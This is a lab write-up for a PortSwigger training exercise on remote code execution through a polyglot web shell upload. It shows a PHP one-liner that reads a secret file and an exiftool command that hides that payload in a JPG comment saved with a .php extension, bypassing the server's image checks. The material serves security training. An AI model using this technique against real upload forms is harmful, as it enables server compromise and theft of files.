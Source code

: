 # Remote code execution via polyglot web shell upload

## Description

[This lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload) contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code. 

## Reproduction and proof of concept

1. On your system, create a file called ``exploit.php`` containing a script for fetching the contents of Carlos's secret. For example:

```text
<?php echo file_get_contents('/home/carlos/secret'); ?> 
```

2. Log in and attempt to upload the script as your avatar. 

```text
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.

� Back to My Account
```

The server successfully blocks uploading files that are not images, even if you try using techniques used in previous labs.

3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:

```text
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" nina.jpg -o polyglot.php
```

This adds the PHP payload to the image's Comment field, then saves the image with a `.php` extension. 

4. In your browser, upload the polyglot image as your avatar, then go back to your account page. 
5. In Burp's proxy history, find the `GET /files/avatars/polyglot.php` request. Use the message editor's search feature to find the `START` string somewhere within the binary image data in the response. Between this and the ``END`` string, you should see Carlos's secret:

![File upload](../../_static/images/upload8.png)

6. Submit the secret to solve the lab. 

## Exploitability

An attacker will need to log in; upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`; and then enter this secret using the button provided in the lab banner.
